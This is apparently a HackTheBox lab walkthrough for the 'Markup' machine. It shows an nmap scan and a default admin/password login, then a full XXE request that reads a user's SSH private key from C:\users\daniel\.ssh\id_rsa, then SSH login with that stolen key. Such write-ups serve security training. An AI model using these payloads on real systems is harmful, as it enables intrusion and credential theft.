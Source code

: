 ```yaml
---
title: Markup - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - windows
  - xxe
---
```


# Markup -  A HTB machine


```bah
nmap -sC -A 10.129.95.192 -Pn 
```

Open ports: 22, 80 and 443.


In the browser, there is a login panel. Try typical credentials. admin and password work. 

Locate the form to order an item. Capture the request with burp:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 108
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><order><quantity>2</quantity><item>Home Appliances</item><address>1</address></order>
```

Playing arounf with the request (for instance, nesting some xml) you can check that it's possible to escape the xml tags.


From some responses like the one below (and also from nmap scanning) you know that server runs on a windows:

```
:  DOMDocument::loadXML(): Opening and ending tag mismatch: order line 1 and item in Entity, line: 1 in <b>C:\xampp\htdocs\process.php
```

Also, from source code you know there might be a user called daniel:

![source code](img/markup.png)


As part of a possible exploitation we could try to check if there are ssh private key saved in that user's folder.

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 182
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

The response will be id_rsa private key. [More about XEE attacks](xml-external-entity-xee.md).

Now, as port 22 was open:

```bash
ssh -i id_rsa daniel@10.129.95.192
```

user.txt is in Desktop.




